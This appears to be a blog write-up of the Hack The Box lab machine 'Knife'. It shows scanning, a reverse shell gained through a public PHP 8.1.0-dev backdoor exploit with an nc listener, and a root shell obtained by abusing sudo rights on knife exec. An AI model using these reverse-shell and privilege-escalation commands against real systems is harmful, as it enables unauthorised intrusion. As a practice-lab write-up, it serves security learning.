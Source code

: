 ```yaml
---
layout: post
title: "HTB - Knife"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```

I've just completed Knife from HTB! In my opinion, Knife is a rather straight forward box that makes use of existing backdoors. Here's a quick writeup on how I went about solving this box

<!--more-->

## HTB - Knife
**Box** : Knife\
**IP Address** : 10.10.10.242\
**Operating System** : Linux

**Reflections**:
- Google is your best friend!
- Also not to forget, `exploitdb` :)

### Enumeration
As usual, we will first start off with our normal Nmap scans to identify the possible open ports and the operating systems behind each port. This box is quite simple, with only 2 open ports - `22` and `80`.

Port `22` belongs to an SSH server, while port `80` belongs to a web server running on `Apache 2.4.41 (Ubuntu)`

Visiting the web server does not yield any interesting results providing hints to any exploitable vulnerabilities. So, we will go on to scan the website with `Nikto`, which uncovered an interested information that the web server has an `x-powered-by` header of `PHP/8.1.0-dev`

```bash
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
```

### Exploitation

The first step that I took was to try to exploit the `Apache/2.4.41` by searching for vulnerabilities related to it. CVE 2020-1927 was found to be the most promising exploit related to it, but unfortunately I was unable exploit it on the website (LIFE OF A SAD HTB PLAYER IN A NUTSHELL....)

The second step that I tried was to look for potential exploits for `PHP/8.1.0-dev`. This time though, I was able to find potential exploits on this [repository](https://github.com/flast101/php-8.1.0-dev-backdoor-rce). This repository provided 2 different exploits, namely a `reverse shell exploit` and a `RCE exploit`. For this case, I choose to do a `reverse shell exploit` first but thankfully it worked!! (Actually I was just lazy and just took a random exploit to try it out XD)

```bash
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
mv revshell_php_8.1.0-dev.py exploit_revshell.py 
```

Now, all that is left is for us to first open a listener on the attacker's machine using `nc -nlvp 3000` and execute the exploit script on the victim's machine using `python3 exploit_revshell.py http://10.10.10.242 <Your IP address> 3000 `

Now, we have successfully obtained a reverse shell! So what's next? Of course, we have to stabilize the shell :-)

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.242] 48826
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ cd home
cd home
```

### Obtaining user flag

Now, all that is left for us is to obtain the user flag! Easy Peezy

```bash
james@knife:/home$ ls
ls
james
james@knife:/home$ cd james
cd james
james@knife:~$ ls
ls
user.txt
james@knife:~$ cat user.txt
cat user.txt
```

### Obtaining system/root flag

Wait! But we are not done with the machine yet! There is still another system flag yet to be discovered.

So, let's run `sudo -l` to check for the permissions. What we noticed was that `/usr/bin/knife` can be executed with root privileges, without the need for any password :o

```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

But, here comes the problem - What exactly is this `/usr/bin/knife`? So, a very quick google search tells me that `/usr/bin/knife` belongs to an open-source [repository](https://github.com/chef/chef) which serves as an infrastructure server.

So now comes the next question - How can `/usr/bin/knife` be exploited? Fortunately, the answer lies in the documentation of `knife`. Reading the documentation, I discovered that there is a `knife exec` command that allows me to execute scripts using `knife`. This could potentially allow us to obtain a root shell.

Now, lets put our theory to the test! And, it worked! All we have to do is to stabilize the shell and obtain the system flag.

```bash
james@knife:~$ sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
# python3 -c 'import pty; pty.spawn("/bin/bash")'   
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@knife:/home/james# cd /root
cd /root
root@knife:~# ls
ls
delete.sh  root.txt  snap
root@knife:~# cat root.txt
cat root.txt
```